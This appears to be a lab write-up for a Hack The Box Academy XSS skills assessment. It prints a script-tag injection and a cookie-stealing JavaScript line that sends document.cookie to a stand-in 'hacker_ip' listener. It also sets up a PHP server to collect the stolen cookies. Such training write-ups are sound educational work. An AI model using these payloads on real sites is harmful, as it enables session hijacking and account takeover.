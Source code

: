 ```yaml
---
title: Cross-Site Scripting (XSS)
author: saramazal
date: 2024-11-08
categories: [HTB Academy]
tags: [HackTheBox Academy, Skills Assessment, cbbh, cpts, xss, tmpserver, Session Hijacking ]     # TAG names should always be lowercase
img_path: /images/htb-academy/
image:
  path: images/htb-academy/xss.png
---
```




## [HTB Academy: Cross-Site Scripting (XSS) Module](https://academy.hackthebox.com/course/preview/cross-site-scripting-xss)
### Skills Assessment
We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new `Security Blog`.
In our Web Application Penetration Testing plan, we reached the part 
where you must test the web application against Cross-Site Scripting 
vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the `/assessment` directory on the server using the browser:

## Questions:

1. Identify a user-input field that is vulnerable to an XSS vulnerability
2. Find a working XSS payload that executes JavaScript code on the target's browser
3. Using the `Session Hijacking` techniques, try to steal the victim's cookies, which should contain the flag.

## Answers:
### First, let's create a server on our machine and prepare a payload for testing input fields on the target site.
```bash
mkdir /tmp/tmpserver
```

```bash
cd /tmp/tmpserver
```

```bash
nano myscript.js > new Image().src='http://hacker_ip:3333/index.php?c='+document.cookie;
```

```bash
nano index.php
```

![php-code](/images/htb-academy/php-code.png)

## Let's start your server

```bash
sudo php -S 0.0.0.0:3333
```

### Now let's test the input fields on the target site:

```bash
"><script src=http://hacker_ip:3333/myscript.js></script>
```

![inputs](/images/htb-academy/inputs.png)
![php-server](/images/htb-academy/php-server.png)

### Great, it works!

### Let's check our cookie file.

![cookie](/images/htb-academy/cookie.png)

## Happy Hacking!


[![XSS Badge](/images/htb-academy/xss-badge.png){: width="600" height="auto" .shadow }](https://academy.hackthebox.com/achievement/badge/1e195a3e-ef45-11ee-b18d-bea50ffe6cb4)


[My HTB Academy unique referral link >](https://referral.hackthebox.com/mzyGKZb)

